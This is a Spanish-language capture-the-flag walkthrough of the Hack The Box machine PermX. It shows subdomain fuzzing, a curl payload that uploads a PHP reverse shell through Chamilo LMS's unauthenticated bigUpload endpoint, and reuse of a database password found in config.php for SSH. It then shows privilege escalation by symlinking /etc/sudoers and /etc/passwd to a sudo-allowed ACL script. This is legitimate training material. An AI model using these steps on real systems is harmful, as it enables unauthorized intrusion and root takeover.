# PERMX [HACKTHEBOX] / Easy
### (Wfuzz Hosts Scan, File Linking, Chamilo LMS Unauthenticated File Upload Vulnerability, BigUploadFile Remote Code Execution (RCE), Sudoers File Edit for Privilege Escalation using ln command)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 


# Nmap Scan

Primero, hacemos un escaneo de nmap, el cual nos encuentra 2 puertos, nos metemos en la web (puerto 80)

```bash
nmap -p- --open -sCV -sS -n -Pn -vvv [ip_víctima] -oN archivo_de_escaneo
```



Pero no nos deja, primero tenemos que meter el dominio en /etc/hosts:



# Web Enumeration

Como no encontramos nada en la web, probamos con wfuzz un par de cosas. Nos saca un subdirectorio si buscamos:

```bash
wfuzz -c -t 200 --hc=302 -w /usr/share/wordlists/subdomains-top1million-110000.txt -H "Host: FUZZ.permx.htb" http://permx.htb/
```



Si buscamos "chamilo" por la web, encontramos que hay un exploit con RCE, el cual nos dice que se puede conseguir fácilmente una RevShell. Vamos a copiarlo y ver si la máquina es vulnerable.



```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc.git
```

Ejecutamos según las instrucciones:

```bash
python3 main.py -u http://lms.permx.htb -a scan 
```

Y nos sale que es vulnerable:



# Chamilo LMS Unauthenticated File Upload

Vamos a explotarlo según el exploit, que si investigamos por internet vemos que usa el siguiente payload:

```python
curl -F “bigUploadFile=@revshell.php” “http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported
```

tenemos que crear una reverse shell con php e incluirla en el curl para que se suba, después, hacemos un curl a la ubicación donde se sube el archivo:
`http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/revshell.php`



# User Flag

Si nos acordamos de la web, había un sitio donde había un login, eso significa que tiene que haber una base de datos que almacene eso. Buscando por los directorios de la web, encontramos un archivo config.php con las credenciales:

```bash
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

Vamos a conectarnos por ssh como el usuario que había en el directorio /home de la máquina (mtz):

```bash
ssh mtz@10.10.11.23
```

Tenemos la flag de user:



# Root Flag

Si buscamos por `sudo -l`, encontramos que solo podemos ejecutar como root un archivo .sh, si lo leemos vemos que lo que hace es darle permisos a un archivo. Si buscamos por internet una forma de crear un acceso directo a un archivo, de forma que esté dentro de el directorio /home/mtz, vemos que hay un comando ("ln"). Lo utilizaremos de la siguiente forma:

```bash
ln -s /etc/sudoers acceso_directo
```



Ahora vamos a ejecutar el script basándonos en los parámetros que tenemos que utilizar (user, perms, file):

```bash
sudo /opt/acl.sh mtz rwx /home/mtz/acceso_directo
```

Ahora vamos a abrir el acceso directo (/etc/sudoers) con nano, de esta forma nos abrirá el archivo de los suders con permisos de escritura, ahí pondremos a mtz como sudoer:



Si ejecutamos sudo su vemos que no nos deja:




Vamos a hacer lo mismo pero con el archivo /etc/passwd, donde editaremos la línea de "root" y quitaremos la "x" para poder ser root sin poner contraseña:



Ya somos root:




# ./ROOTED
